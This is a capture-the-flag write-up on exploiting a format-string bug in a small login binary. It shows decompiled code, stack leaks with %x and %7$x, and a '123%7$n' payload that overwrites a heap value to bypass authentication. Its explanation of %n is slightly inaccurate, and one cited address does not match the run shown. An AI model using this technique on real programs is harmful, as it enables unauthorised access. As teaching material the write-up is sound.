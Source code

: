 # Log Me In!

Only the executable file was given. This was tagged as a "format string" challenge.

We run the program first.

```
user = 0x4202a0
Enter your username:
cookie
Enter password for user: cookie
cookie
Invalid login information.
```
The decompiled code from Ghidra is as follows; I have done some minor changes to improve the readability.

```
int main(void) { 
  char* __ptr = calloc(1, 40);
  printf("user = %p\n", __ptr);
  printf("Enter your username:");
  fgets((__ptr + 4), 20, stdin);
  printf("Enter password for user: ");
  printf((__ptr + 4));
  fgets((__ptr + 24), 20, stdin);
  if (*__ptr == 0) {
    printf("Invalid login information.");
  }
  else {
    printf("Successfully logged in!");
    giveFlag();
  }
  free(__ptr);
  return 0;
}
```

The code, though appearing to be very simple, did take me a while to fully understand.

Firstly, ```__ptr``` is a pointer to a buffer allocated on the heap, and ```calloc()``` will set the entire buffer to zeroes. Its address is shown, which is important later on.

A prompt for the username is then called, and ```fgets()``` writes the username to an offset 4 bytes off the memory address up to a total of 20 bytes, and the password fills up the remaining buffer.

This means that the first 4 bytes of the buffer are empty (from ```calloc()```), and logging in is not possible unless the first 4 bytes are written to.

### The exploit 
A good explanation of the string formatting vulnerability can be found [here](https://www.youtube.com/watch?v=2HxyGWD1htg). Simply put, format specifiers in ```printf()``` can be used to read values on the stack, and write to values elsewhere.

I played around with the ```%x``` format specifier, which prints out the values on the stacks, to get things started with. After some experimentation, a few values on the stack were printed out. 

```
$ python2 -c 'print "%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x"' | ./logmein
user = 0x11882a0
Enter your username:
Enter password for user: 40202f-0-0-11882a4-19-be9a79d0-Invalid login information.
```
The value ```0x12fe2a4``` was found on the stack, which meant that memory address of the username (4 bytes off ```user```) was present, but not the actual address of ```user```. The input, capped to a total of 20 characters, was too long to show the other variables on the stack. 

Removing the hyphens (though this makes things less clear), other values further up the stack can be shown:
```
$ python2 -c 'print "%x%x%x%x%x%x%x%x%x"' | ./logmein
user = 0x23272a0
Enter your username:
Enter password for user: 40202f0023272a419158a692023272a00a0287083
Invalid login information.
```

The address of the user can be found at the seventh 4-byte value on the stack. We confirm this by using ```%7$x``` as an input:
```
$ python2 -c 'print "%7$x"' | ./logmein
user = 0xdb32a0
Enter your username:
Enter password for user: db32a0
Invalid login information.
```

Now, the only thing left is to write to this value. This can be done by using the ```%n``` specifier. The (hexadecimal) value to the left of the specifier is written to the address specified.

**Solution**
$ python2 -c 'print "123%7$n"' | ./logmein
user = 0x15d3010
Enter your username:
Enter password for user: 123
adsf
Successfully logged in!

**Flag**
```
flag{why_does_printf_even_have_%n}
```
